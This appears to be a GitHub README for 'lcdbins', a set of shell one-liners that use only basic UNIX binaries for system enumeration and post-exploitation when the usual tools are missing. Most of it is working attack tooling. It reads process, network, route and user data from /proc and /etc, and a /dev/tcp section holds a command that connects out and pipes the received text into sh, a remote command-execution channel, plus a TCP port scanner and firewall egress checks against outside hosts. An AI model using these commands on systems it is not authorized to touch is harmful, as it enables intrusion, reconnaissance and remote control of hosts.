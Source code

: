 # lcdbins

An **lcdbin** is a lowest-common denominator binary - one which, with rare exceptions, should be present on any UNIX-based operating system. This repository is a collection of oneliners that use lcdbins to perform enumeration and post-exploitation activities that you'd normally use other tools for - such as id, netstat or python. Use them when you find yourself in a stripped-down environment where the usual tools aren't available.

Here is a list of the binaries used by the oneliners in this repository:

- awk
- bc
- cat
- echo
- grep
- ls
- printf
- read
- sed
- sort

Greetz to moogz for assistance and contributions.

## Universal Oneliners

Get all IP addresses in /etc/

```shell
grep -ro '[0-9]\{1,3\}\(\.[0-9]\{1,3\}\)\{3\}' /etc/* 2>/dev/null
grep -Ero '\b((25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)(\.|$)){4}\b' /etc/* 2>/dev/null
```

## /proc - system enumeration

Get kernel version information

```shell
cat /proc/version
cat /proc/sys/kernel/version
```

Get hostname

```shell
cat /proc/sys/kernel/hostname
```

Get current uid and gid

```shell
uid=$(cat /proc/self/status | awk -F'[ \t]' '{if(tolower($1) == "uid:") print $2 }'); gid=$(cat /proc/self/status | awk -F'[ \t]' '{if(tolower($1) == "gid:") print $2 }'); echo uid $uid gid $gid
```

Get group membership for uid

```shell
uid=1000; user=$(awk -F : -v x="$uid" '{if($3==x) print $1}' /etc/passwd); grep $user /etc/group
```

List information about processes

```
echo PID NAME UID GID; pids=$(ls /proc | grep '^[0-9]*$'); for pid in $pids; do name=$(cat /proc/$pid/status 2> /dev/null | awk -F'[ \t]' '{if(tolower($1) == "name:") print $2 }'); uid=$(cat /proc/$pid/status 2> /dev/null | awk -F'[ \t]' '{if(tolower($1) == "uid:") print $2 }'); gid=$(cat /proc/$pid/status 2> /dev/null | awk -F'[ \t]' '{if(tolower($1) == "gid:") print $2 }'); echo $pid $name $uid $gid; done;
```

## /proc/net - network enumeration

Parse listening ports on /proc/net/tcp

```shell
for i in $(grep " 0A " /proc/net/tcp | awk -F "[ :]+" '{print $4}'); do echo "obase=10; ibase=16; $i" | bc; done | sort -un
```

Parse destination and gateway from /proc/net/route

```shell
echo Interface Destination Gateway; awk "NR >= 2" /proc/net/route |while read line; do printf '%s %d.%d.%d.%d %d.%d.%d.%d\n' $(echo $line | awk -F ' ' '{print $1}') $(echo $line | awk -F ' ' '{print $2}' | sed "s/../0x& /g" | awk '{ for (i=NF; i>1; i--) printf("%s ",$i); print $1; }') $(echo $line | awk -F ' ' '{print $3}' | sed "s/../0x& /g" | awk '{ for (i=NF; i>1; i--) printf("%s ",$i); print $1; }'); done
```

Print the ARP table

```shell
cat /proc/net/arp
```

## /dev/tcp - making connections (requires bash)

Connect to a port and execute the command received

```shell
exec 3<>/dev/tcp/127.0.0.1/31337; cat <&3 | sh
```

Use letmeoutofyour.net to check firewall ACLs for a port

```shell
exec 3<>/dev/tcp/letmeoutofyour.net/31337; echo -e "GET / HTTP/1.0\r\n\r\n" >&3; cat <&3 | grep w00tw00t
```

Use dyndns.org to find your public IP address

```shell
exec 3<>/dev/tcp/checkip.dyndns.org/80; echo -e "GET / HTTP/1.0\r\n\r\n" >&3; cat <&3
```

Scan TCP ports

```shell
for i in {1..9000}; do SERVER="127.0.0.1"; PORT=$i; (echo  > /dev/tcp/$SERVER/$PORT) &> /dev/null && echo "Port $PORT seems to be open"; done
```
